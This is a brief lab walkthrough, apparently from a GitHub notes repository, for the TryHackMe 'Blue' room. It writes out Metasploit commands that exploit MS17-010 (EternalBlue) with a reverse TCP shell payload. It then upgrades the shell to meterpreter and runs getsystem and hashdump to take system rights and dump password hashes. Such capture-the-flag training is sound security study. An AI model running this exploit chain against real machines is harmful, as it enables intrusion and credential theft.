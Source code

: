 [TryHackMe Blue room](https://tryhackme.com/r/room/blue) | [YouTube Walkthrough](https://www.youtube.com/watch?v=32W6Y8fVFzg)


## setup

1. [Install nmap](https://github.com/TurboLabIt/cybersec/blob/main/notes/000-nmap.md)
2. [Install metasploit](https://github.com/TurboLabIt/cybersec/blob/main/script/metasploit/install.sh)


## recon

[nmap scan, nmap vuln](https://github.com/TurboLabIt/cybersec/blob/main/notes/000-nmap.md)


## exploit info

`msfupdate && msfconsole`

```shell
search ms17-010
info exploit/windows/smb/ms17_010_eternalblue
```


## exploit

```shell
use exploit/windows/smb/ms17_010_eternalblue
set LHOST <my-ip>
set RHOSTS <target-ip>
set payload windows/x64/shell/reverse_tcp
exploit
```


## shell upgrade

```shell
CTRL+Z

use post/multi/manage/shell_to_meterpreter
sessions -l
set SESSION 1
exploit

sessions -l
sessions -i 2

sysinfo
getsystem
hashdump
```
